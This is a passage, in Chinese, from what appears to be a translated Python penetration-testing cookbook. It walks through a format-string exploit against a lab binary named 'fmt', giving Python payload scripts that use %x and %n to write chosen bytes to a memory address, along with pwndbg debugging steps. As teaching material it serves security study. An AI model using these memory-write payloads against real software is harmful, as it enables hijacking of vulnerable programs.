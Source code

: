 然后该值更改为`0x4c443c34`

1.  现在让我们尝试改变有效载荷中的一个字节。为此，将第三个格式字符串参数`%x`更改为`%16x`。这将在前面添加 16 个零，并使其长度为 16 个字节：

```py
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK' 
form = '%x%x%16x%n%x%n%x%n%x%n'  
print w1 + w2 + w3 + w4 + form  
```

1.  然后以调试模式运行应用程序，并检查内存中的值：

```py
gdb ./fmt    
pwndbg> break * main + 59    
pwndbg> break * main + 64    
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748
pwndbg> c
pwndbg> x/4x 0x08049748  
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00121.jpeg)

该值从其先前的值`0x4c443c`更改为`0x564e46`。因此，所有字节都增加了 16。现在它的长度为 16 个字节。

1.  现在我们可以尝试将特定地址写入该地址位置。在这里，我们可以尝试写入`ddccbbaa`。为此，更新我们的`exploit.py`如下：

```py
#!/usr/bin/python   
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0xaa 
b2 = 0xbb 
b3 = 0xcc 
b4 = 0xdd  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n' 
print w1 + w2 + w3 + w4 + form 
```

通过这样做，我们在每个`%n`之前添加了足够的前导零，以匹配打印字符的总数，并匹配我们计划写入的期望值。此外，每次写入时字节的总数都会增加；我们必须为每个值添加 256，以使最后的字节干净。

1.  现在使用我们精心制作的有效载荷执行应用程序，并检查内存位置：

```py
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748  
```

